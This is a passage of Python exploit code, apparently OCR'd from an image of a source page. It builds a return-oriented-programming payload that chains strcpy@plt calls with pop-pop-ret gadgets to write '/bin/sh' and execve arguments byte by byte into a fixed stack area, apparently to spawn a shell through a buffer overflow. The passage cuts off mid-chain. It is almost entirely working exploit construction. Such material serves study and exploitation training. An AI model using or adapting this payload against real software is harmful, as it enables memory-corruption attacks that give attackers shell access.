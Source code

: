 ``` python
buf += conv(ppr_addr)
buf += conv(cust_esp)
buf += conv(execve_null_arg)
cust_esp += 1
buf += conv(strcpy_plt)
buf += conv(ppr_addr)
buf += conv(cust_esp)
buf += conv(execve_null_arg)
cust_esp += 1
buf += conv(strcpy_plt)
buf += conv(ppr_addr)
buf += conv(cust_esp)
buf += conv(execve_null_arg)
#Below stack frame is for strcpy (to copy execve path "/bin/sh" to custom stack @ loc 0x804ac60)
buf += conv(strcpy_plt)
buf += conv(ppr_addr)
buf += conv(execve_path_dst)
buf += conv(execve_path_oct1)
execve_path_dst += 1
buf += conv(strcpy_plt)
buf += conv(ppr_addr)
buf += conv(execve_path_dst)
buf += conv(execve_path_oct2)
execve_path_dst += 1
buf += conv(strcpy_plt)
buf += conv(ppr_addr)
buf += conv(execve_path_dst)
buf += conv(execve_path_oct3)
execve_path_dst += 1
buf += conv(strcpy_plt)
buf += conv(ppr_addr)
buf += conv(execve_path_dst)
buf += conv(execve_path_oct4)
execve_path_dst += 1
buf += conv(strcpy_plt)
buf += conv(ppr_addr)
buf += conv(execve_path_dst)
buf += conv(execve_path_oct1)
execve_path_dst += 1
buf += conv(strcpy_plt)
buf += conv(ppr_addr)
buf += conv(execve_path_dst)
buf += conv(execve_path_oct5)
execve_path_dst += 1
buf += conv(strcpy_plt)
buf += conv(ppr_addr)
buf += conv(execve_path_dst)
buf += conv(execve_path_oct6)
#Below stack frame is for strcpy (to copy execve argv[0] (0x804ac60) to custom stack @ loc 0x804ac68)
buf += conv(strcpy_plt)
buf += conv(ppr_addr)
buf += conv(execve_argv_dst)
buf += conv(execve_argv1_oct4)
execve_argv_dst += 1
buf += conv(strcpy_plt)
buf += conv(ppr_addr)
buf += conv(execve_argv_dst)
buf += conv(execve_argv1_oct3)
execve_argv_dst += 1
buf += conv(strcpy_plt)
buf += conv(ppr_addr)
buf += conv(execve_argv_dst)
```